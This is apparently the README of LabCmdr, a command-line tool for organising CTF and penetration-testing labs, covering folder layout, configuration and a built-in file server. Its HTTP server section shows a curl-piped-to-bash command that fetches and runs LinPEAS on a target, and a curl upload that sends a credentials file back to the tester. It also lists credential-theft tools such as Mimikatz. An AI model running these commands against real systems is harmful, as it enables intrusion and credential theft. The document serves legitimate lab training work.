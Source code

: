 # LabCmdr 🚀

**A command-line tool for managing CTF and penetration testing lab environments.**

Stop spending time on folder organization and repetitive setup—LabCmdr creates consistent lab structures, manages configurations, and automates common workflows so you can focus on hacking.

## Features

- 🎯 **Quick Lab Setup** - Interactive prompts guide you through creating organized lab environments
- 📁 **Consistent Structure** - Every lab follows the same pattern: notes, scans, server, loot
- 🔧 **Smart Context Detection** - Commands work from anywhere within your lab (like `git`)
- 🌐 **Built-in HTTP Server** - Serve tools and receive file uploads with one command
- 🛠️ **Tool Management** - Download enumeration tools (LinPEAS, WinPEAS, BloodHound, etc.)
- ⚙️ **Configuration Management** - Track IPs, credentials, and lab metadata in one place
- 🔍 **Multiple Lab Types** - HTB Seasons, training platforms, conference CTFs, custom labs

## Installation

```bash
git clone https://github.com/yourusername/LabCmdr.git ~/Coding/LabCmdr
cd ~/Coding/LabCmdr
./install.sh
```

Ensure `~/.local/bin` is in your PATH.

## Quick Start

```bash
# Create a new lab
labcmdr create

# Navigate to your lab
cd ~/Labs/HTB_Season_9/Week01_BoardLight

# Launch interactive menu
labcmdr run
```

## Lab Structure

Each lab follows this structure:

```
LabName/
├── notes/              # Your documentation
│   ├── enumeration.md
│   ├── initial_access.md
│   ├── escalation.md
│   └── reminders.md    # Quick reference commands
├── server/
│   ├── serve/          # Files to serve to targets
│   │   ├── tools/
│   │   ├── exploits/
│   │   └── payloads/
│   └── loot/           # Exfiltrated data
├── scans/
│   └── nmap/
└── labcmdr/
    └── labconfig.json  # Lab configuration
```

## Core Commands

### Create Lab
```bash
labcmdr create    # Interactive mode with prompts
```

Supports:
- **HTB Seasons** - Organized by season/week
- **Training Platforms** - HTB Active/Retired, TryHackMe, OffSec PG, VulnHub
- **Conference CTFs** - BSides, DefCon, custom conferences
- **Custom Labs** - Flexible structure for anything else

### Interactive Menu
```bash
labcmdr run       # Launch control panel (must be in lab directory)
```

From the menu you can:
- Start/stop HTTP server for file transfers
- Download enumeration tools
- Update target IP and credentials
- Manage `/etc/hosts` entries
- View lab status and logs

### View Status
```bash
labcmdr status    # Show current lab info
```

## HTTP Server

The built-in server serves files from `server/serve/` and accepts uploads to `server/loot/`:

**Download from target:**
```bash
wget http://10.10.14.5:8080/tools/linpeas.sh
curl http://10.10.14.5:8080/tools/linpeas.sh | bash
```

**Upload to your machine:**
```bash
curl -X POST -F 'file=@data.txt' http://10.10.14.5:8080/upload/creds/data.txt
```

## Tool Downloads

Download common enumeration tools directly into your lab:

- **Linux Tools** - LinPEAS, pspy, LinEnum, LSE
- **Windows Tools** - WinPEAS (x64/x86), Mimikatz, Netcat
- **AD Tools** - SharpHound, Rubeus, Certify, PowerView

Access via the interactive menu or use the wrapper functions.

## Configuration

Each lab stores metadata in `labcmdr/labconfig.json`:

```json
{
  "metadata": {
    "name": "BoardLight",
    "platform": "htb",
    "type": "season"
  },
  "network": {
    "ip_address": "10.10.11.32",
    "fqdn": ["board.htb"]
  },
  "credentials": {
    "username": "larissa",
    "password": ""
  }
}
```

Update via the interactive menu or edit directly.

## How It Works

LabCmdr uses **context detection** to find your lab:

- Searches current directory and parents for `labcmdr/labconfig.json`
- Commands work from any subdirectory (like `git`)
- Single installation manages all your labs

**Code lives in one place** (`~/Coding/LabCmdr/`), **data lives in labs** (`~/Labs/...`)

## Requirements

- Python 3.7+
- Linux/Unix system (tested on Kali/Ubuntu)
- VPN connection (for `tun0` IP detection)

## Project Status

**Alpha Release** - Core functionality is working but rough around the edges. Expect bugs and missing features.

### Working
- ✅ Lab creation with interactive prompts
- ✅ Context-aware commands
- ✅ Interactive menu system
- ✅ HTTP server with upload support
- ✅ Tool downloads
- ✅ Configuration management
- ✅ `/etc/hosts` management

### Coming Soon
- ⏳ Automated nmap scanning
- ⏳ Scan result parsing
- ⏳ Better error handling
- ⏳ More tool categories

## Contributing

This is an initial release—contributions, bug reports, and feature requests are welcome!

## License

MIT License - Free to use and modify.

---

**Built for efficient CTF and penetration testing workflows.**